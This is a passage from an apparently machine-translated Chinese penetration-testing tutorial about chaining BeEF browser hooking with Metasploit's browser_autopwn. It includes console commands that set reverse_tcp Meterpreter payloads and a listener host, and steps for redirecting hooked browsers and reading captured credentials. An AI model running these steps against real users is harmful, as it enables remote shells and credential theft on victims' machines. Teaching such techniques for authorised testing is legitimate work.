 在 BeEF 中，测试人员查看攻击的历史日志，可以从**命令结果**列中的**数据**字段中获取用户名和密码，如下图所示：

![A walkthrough of the BeEF browser](img/3121OS_11_25.jpg)

## 整合牛肉和梅塔斯普洛特攻击

BeEF 和 Metasploit 框架都是使用 Ruby 开发的，可以一起操作来攻击目标。因为它使用客户端和服务器端指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```

等待所有相关漏洞攻击完成加载。在下面的屏幕截图中显示的示例中，加载了 18 个漏洞利用。请注意攻击的目标 URL。在本例中，目标 URL 为`http://192.168.43.130:8080/ICprp4Tnf4Z`：

![Integrating BeEF and Metasploit attacks](img/3121OS_11_26.jpg)

有几种方法可以引导浏览器点击目标 URL，但是，如果我们已经连接了目标浏览器，我们可以使用 BeEF 的`redirect`功能。在牛肉控制面板中，进入**浏览器****钩住域****重定向浏览器**。出现提示时，使用此模块指向目标 URL，然后执行攻击。

在 Metasploit 控制台中，您将看到针对目标连续发起的选定攻击。成功的攻击将打开 MeterMeter 会话，如以下屏幕截图所示：

![Integrating BeEF and Metasploit attacks](img/3121OS_11_27.jpg)
